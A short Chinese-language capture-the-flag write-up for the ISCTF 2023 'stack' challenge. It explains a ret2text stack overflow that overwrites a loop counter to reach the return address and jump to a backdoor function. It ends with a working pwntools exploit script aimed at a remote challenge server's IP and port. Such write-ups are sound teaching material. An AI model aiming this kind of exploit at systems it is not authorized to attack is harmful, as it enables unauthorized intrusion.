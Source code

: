 ```yaml
---
title: isctf2023 - stack
date: 2023/12/1 12:00:00
tags:
    - noob
excerpt: 利用栈溢出和后门函数实现ret2text漏洞利用，覆盖迭代器以跳转到返回地址。
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO off  
ghidra分析为64位程序

## 解题思路

最简单的ret2text，程序中存在后门函数，栈溢出空间自定，
只要注意xmm寄存器要求的栈平衡

还有一点是这道题中迭代器`i`在buf之上，在覆写时会覆盖到，
可以借机将其覆写为0x27，跳至栈上返回地址处

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./stack')
    else:
        sh = remote('43.249.195.138', 21935)
    if lo & 0b10:
        gdb.attach(sh)
    sh.sendline(b'1600') # read size
    retAddr = 0x4012e5
    backdoor = 0x4012e6

    # payload, when reading '\x27' modifies the counter, skip to retAddr
    sh.sendline(b'0'*28 + b'\x27' + p64(retAddr) + p64(backdoor)) # add a ret to keep rsp balance
    sh.interactive()

payload(0)
```

Done.
